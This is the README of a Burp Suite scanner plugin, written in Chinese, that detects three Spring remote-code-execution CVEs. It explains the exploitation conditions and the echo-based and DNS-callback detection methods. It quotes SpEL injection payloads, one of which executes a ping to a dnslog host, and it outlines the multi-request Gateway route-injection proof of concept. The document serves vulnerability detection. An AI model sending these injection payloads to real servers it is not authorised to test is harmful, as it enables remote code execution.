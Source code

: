 # SpringScan Burp 检测插件

## 支持检测漏洞

- [x] Spring Core RCE (**CVE-2022-22965**)
- [x] Spring Cloud Function SpEL RCE (**CVE-2022-22963**)
- [x] Spring Cloud GateWay SPEL RCE (**CVE-2022-22947**)

## 回连平台

- [x] Dnglog (默认)
- [x] BurpCollaboratorClient
- [x] Ceye
- [ ] Digpm
- [ ] 支持自定义回连平台

### CVE-2022-22965 检测方法

利用条件

* JDK9及其以上版本；
* 使⽤了Spring-beans包； 
* 使⽤了Spring参数绑定，参数绑定使⽤的是⾮基本参数类型，如POJO ；

* 使用Tomcat部署，且日志记录功能开启（默认开启）

因为这个洞上传shell还需要准确的web路径（默认在webapps\ROOT），写ssh和计划任务也需要root权限。实战中用exp去检测漏洞不太现实，所以思路转变到使用其他方法去检测漏洞的存在性。主要通过下面两种方式检测：

* 回显检测
* 回连检测（Digpm/BurpCollaboratorClient/Dnglos/Ceye）

详细原理 ➡️ [https://www.t00ls.cc/articles-65348.html](https://www.t00ls.cc/articles-65348.html)

检测置信度：

> 回连检测 > 回显检测

回显检测误报率较大，可能存在漏洞但不能保证JDK版本大于等于**9**，可以及时捕捉到不出网的漏洞；回连检测准确率高，不适用于不出网环境。
推荐在内网的环境只开启回显检测，在公网环境开回显检测和回连检测。

### CVE-2022-22963 检测方法 

利用条件

* 默认路由`/functionRouter`存在SpEL表达式注入

两种检测方法：

* 通过Java自带InetAddres库：`spring.cloud.function.routing-expression:T(java.net.InetAddress).getByName("xxx.dnslog.cn")`回连探测（可绕过WAF拦截命令执行进行漏洞探测）
* 通过执行`ping`命令：`spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("ping xxx.dnslog.cn")`回连探测
* 会扫描当前URI、以及当前URI拼接默认路由`/functionRouter`进行漏洞探测。

### CVE-2022-22947 检测方法

* 利用条件

该漏洞为当Spring Cloud Gateway启用和暴露 Gateway Actuator 端点时，使用 Spring Cloud Gateway 的应用程序可受到代码注入攻击。攻击者可以发送特制的恶意请求，从而远程执行任意代码。

检测方法：

* 两种方法判断是否是SpringGateway:
* 1.随机访问一个不存在的路径，根据特征`Whitelabel Error Page`判断是否是Spring框架(1.x/2.x); 
* 2.直接访问/actuator/gateway/routes、/prod-api/actuator/gateway/routes，根据特征`route_id`判断；
* 3.POC分五个请求：`包含恶意SpEL表达式的路由 -> 刷新路由 -> 访问添加的路由查看RCE结果 -> 删除路由 -> 刷新路由`

## 插件情况

|             **回显检测**             |             **回连检测**              |
|:--------------------------------:|:---------------------------------:|
| Spring Core RCE (CVE-2022-22965) | Spring Core RCE (CVE-2022-22965)  |
| Spring Cloud GateWay SPEL RCE (CVE-2022-22947) | Spring Cloud Function SpEL RCE （CVE-2022-22963） |

## TODO

- [x] 解决扫描结果显示一直等待的问题
- [x] 配置可保存本地
- [ ] 优化ScannerUI（增加清除按钮、CVE条目、多个漏洞显示）
- [ ] 新增其他Spring漏洞

## 编译

如需编译其他JDK版本，可参考如下方法编译jar包：

![image-20220409120135726](imgs/image-20220409120135726.png)

<img src="imgs/image-20220409120218010.png" alt="image-20220409120218010" style="zoom:50%;" />

<img src="imgs/image-20220409120315324.png" alt="image-20220409120315324" style="zoom:50%;" />

<img src="imgs/image-20220409120455863.png" alt="image-20220409120455863" style="zoom:50%;" />

## 截图

* 加载插件成功

![image-20220430195312197](imgs/image-20220430195312197.png)

* 漏洞检测情况

![image-20220411234911184](imgs/image-20220411234911184.png)

![image-20220411234930710](imgs/image-20220411234930710.png)

![image-20220411234948718](imgs/image-20220411234948718.png)

* 报错检测情况

![image-20220425233957353](imgs/image-20220425233957353.png)

target 模块中可以看到漏洞详情

![image-20220409124402852](imgs/image-20220409124402852.png)

* 插件设置，检测方法默认全开启，回连平台默认`Dnslog`

![image-20220409120720309](imgs/image-20220409120720309.png)

![image-20220413012818703](imgs/image-20220413012818703.png)

* 主动扫描：当不希望每个 URL都做被动扫描时，可以将插件关闭（检测方法正常开启），`右键请求数据包 -> Extensions -> SpringScan -> doScan`即可进行主动扫描：

![image-20220430194559458](imgs/image-20220430194559458.png)

* 插件配置可保存

![image-20231112032954897](imgs/image-20231112032954897.png)

## 免责声明

本工具仅作为安全研究交流，请勿用于非法用途。如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，本人将不承担任何法律及连带责任。
